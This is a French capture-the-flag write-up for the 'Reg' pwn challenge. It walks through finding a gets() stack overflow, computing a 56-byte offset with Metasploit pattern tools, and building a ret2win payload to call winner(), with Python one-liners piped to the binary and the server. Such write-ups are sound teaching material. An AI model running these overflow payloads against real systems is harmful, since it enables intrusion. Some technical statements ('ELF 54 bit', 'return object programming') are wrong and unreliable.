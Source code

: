 # Reg [Pwn] Challenge

**— File type —**

`file reg` 

![Untitled](Reg%20%5BPwn%5D%20Challenge%20ec6b775a0d2944a2aecf108c5cfe1423/Untitled.png)

C’est un ELF 54 bit 

gdb `checksec` pour vérifier les sécurité du programme :

![Untitled](Reg%20%5BPwn%5D%20Challenge%20ec6b775a0d2944a2aecf108c5cfe1423/Untitled%201.png)

NX est activé ce qui ne nous permet pas d’exécuté du code depuis le registre. Nous allons donc devoir faire du ROP return object programming et basculé d’un retour à un autre pour déclencher une autre fonction.

**— Le programme —**

Basique nous pouvons envoyer  un message et le programme se termine.

![Untitled](Reg%20%5BPwn%5D%20Challenge%20ec6b775a0d2944a2aecf108c5cfe1423/Untitled%202.png)

Dans ghidra nous pouvons voir le code de reg :

![Untitled](Reg%20%5BPwn%5D%20Challenge%20ec6b775a0d2944a2aecf108c5cfe1423/Untitled%203.png)

On à un gets qui est sensible à l’exploitation de binaire. Le programme n’est pas sensible à l’injection de strings comme “%p”.

En autre fonction nous avons winner qui va nous écrire le flag et qui n’a pas de vulnérabilité.

![Untitled](Reg%20%5BPwn%5D%20Challenge%20ec6b775a0d2944a2aecf108c5cfe1423/Untitled%204.png)

**— Exploitation —**

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200 > pattern.txt
```

`gdb` → run

et mettre le payload pattern.txt :

`Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag`

dans RBP nous avons ce résultat 

![Untitled](Reg%20%5BPwn%5D%20Challenge%20ec6b775a0d2944a2aecf108c5cfe1423/Untitled%205.png)

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x6241376241366241`

nous avons en offset 48 pour RBP nous ajoutons la taille de RSP et nous obtenons 56 en offset.

**— Création du payload —**

`info functions` dans gdb nous permet de voir toutes les fonctions et leurs adresses.

Nous prenons l’adresse de la fonction winner() = 0x0000000000401206.

Nous allons utilisé python pour créé ce payload :

`python -c "import pwn; print(b'a'*56 + pwn.p64(0x0000000000401206))" > input.txt`

on invoque python on demande la librairie pwntool et dans le print on complète le stack avec 56 a et ensuite nous demandons de passer à la fonction winner nous mettons finalement le payload dans un fichier texte.

Sinon `python -c 'print("a"*56 + "\x06\x12@\x00\x00\x00\x00\x00")' > input.txt` ici nous avons directement l’adresse en raw.

pour essayer le challenge nous pouvons créé un flag.txt sur notre machine et rentrer la commande `cat input.txt | ./reg`

et nous obtenons notre fake flag nous pouvons le faire sur le serveur fournit ensuite

`cat input.txt | nc ip port`